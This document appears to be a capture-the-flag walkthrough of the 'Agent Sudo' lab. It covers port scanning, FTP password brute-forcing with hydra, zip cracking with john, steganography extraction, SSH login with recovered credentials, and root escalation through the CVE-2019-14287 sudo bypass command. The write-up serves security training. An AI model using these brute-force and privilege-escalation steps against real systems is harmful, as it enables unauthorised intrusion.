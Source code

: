 # Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: [Enumerate](##Enumerate)
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


##  Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![[Pasted image 20241016101306.png]]

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![[Pasted image 20241016101415.png]]

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![[Pasted image 20241016101444.png]]

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![[Pasted image 20241016101527.png]]


we got the file, concatenate it:
![[Pasted image 20241016101543.png]]


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:

- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![[Pasted image 20241016101614.png]]

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![[Pasted image 20241023204845.png]]


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![[Pasted image 20241016101901.png]]

# Privilege escalation
Run sudo -l  
![[Pasted image 20241016101951.png]]

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![[Pasted image 20241016102023.png]]

